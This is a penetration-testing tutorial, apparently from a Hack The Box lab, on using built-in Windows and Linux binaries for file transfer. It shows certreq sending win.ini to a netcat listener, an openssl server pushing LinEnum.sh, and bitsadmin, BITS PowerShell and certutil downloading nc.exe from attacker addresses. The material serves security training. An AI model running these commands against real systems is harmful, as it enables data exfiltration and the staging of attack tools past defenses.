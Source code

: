  Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)
  
  ## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

#### Upload win.ini to our Pwnbox

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
#### File Received in our Netcat Session

```shell-session
pepedavidphone@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox

```shell-session
pepedavidphone@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

#### Stand up the Server in our Pwnbox

```shell-session
pepedavidphone@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
#### Download

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
### Certutil

#### Download a File with Certutil
```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```